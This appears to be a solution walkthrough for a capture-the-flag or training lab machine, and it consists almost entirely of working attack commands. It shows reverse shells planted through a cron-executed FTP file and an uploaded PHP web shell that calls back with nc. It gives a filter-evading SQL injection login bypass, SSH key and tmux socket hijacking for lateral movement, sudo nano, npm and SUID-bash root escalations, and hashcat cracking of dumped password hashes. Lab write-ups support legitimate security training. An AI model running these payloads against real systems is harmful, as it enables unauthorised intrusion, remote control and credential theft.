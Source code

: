 ## Initial Access Point 1
1. Log into FTP server (username: anonymous, no password)
```
ftp <ip>
```
2. Download files from /upload folder
```
cd upload
get job.txt
get job_log.txt
```
3. Observe that a cronjob executes the text in job.txt.
4. Modify job.txt with reverse shell command
```
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```
5. Upload modified job.txt file. You will not be able to upload your file without deleting the present one in the FTP server
```
delete job.txt
put job.txt
```
6. Start netcat on separate terminal
```
nc -lvnp <port>
```

## Initial Access Point 2

SQL Injection (since the or gets sanitized, we can do this "oorr"): 
```
username = admin' oorr '1' = '1' -- 
OR
password = admin' oorr '1' = '1' -- 

# remember to put a space after --
```

## Initial Access Point 3

Upload File Vulnerability (Reverse shell):
1. upload a php file with the following content:
```
<?php
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <Attacking IP> <Attacking Port> >/tmp/f");
?>
```

2. Use burp suite/python to intercept the upload file request
```
Change the content type to image/png or image/jpeg
```

3. Run the command on your attacking machine:
```
nc -lvnp <Match the port in the php file>
```

4. Go the the following endpoint
```
<Victim IP>:5000/uploads/<filename.php>
```

## Horizontal Escalation Vector 1

puttygen /tmp/.sys_cache/.thumb -O private-openssh -o /tmp/converted_id
chmod 600 /tmp/converted_id
ssh -i /tmp/converted_id alice@localhost

## Horizontal Escalation Vector 2

cat /var/log/flaskapp.log

## Horizontal Escalation Vector 3

tmux -S /tmp/alice_tmux.sock attach -t shared

## Vertical Escalation Vector 1

```
sudo -l

sudo nano
^R^X
reset; sh 1>&0 2>&0
bash
```

## Vertical Escalation Vector 2

```
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

## Vertical Escalation Vector 3

```
vi /opt/tmp.py

#!/usr/bin/env python
import os
import sys
try:
     os.system('chmod +s /bin/bash')
except:
     sys.exit()

# Wait for cron job to run
/bin/bash -ip
```

## Vertical Escalation Vector 4

```
env
psql -h localhost -U "$LAB_DB_USER" -d "$LAB_DB_NAME"
\l
\c labdb
\dt
SELECT * FROM users;

# Get the hash and crack it with hashcat
hashcat -m 3200 pass.hash /usr/share/wordlists/rockyou.txt
```
